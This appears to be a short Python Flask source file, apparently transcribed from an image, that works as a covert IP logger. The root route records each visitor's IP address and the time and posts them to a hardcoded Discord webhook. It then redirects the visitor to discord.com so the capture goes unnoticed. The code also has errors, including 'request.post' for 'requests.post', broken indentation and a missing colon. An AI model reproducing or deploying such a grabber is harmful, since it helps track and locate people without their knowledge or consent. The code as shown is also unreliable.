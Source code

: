 from flask import Flask, request, redirect
from datetime import datetime
import requests


app = Flask(__name__)

def send_ip(ip, date):
    webhook_url = "https://discord.com/api/webhooks/1335096060489633872/ML2OE6VWoigEC6gbgW_s-lqGg22hyd7ShK9HS6X6BtJblzc7G6ahL7utMtJbbTgv-zJm"
    data = {
        "content" : "",
        "title" : "Kupal"
   }
    data["embeds"] = [
        {
            "title" : ip,
            "description": date
        }
   ]
   request.post(webhook_url, json=data)

@app.route("/")
def index():
    ip = request.environ.get("HTTP_X_FORWARDED_FOR", request.remote_addr)
    date = datetime.today().strftime("%Y-%m-%d %H:%M:%S")
    
    send_ip(ip, date)
    
    return redirect("https://discord.com")
    
    
    
if __name__ == "__main__"
    app.run(host='0.0.0.0')
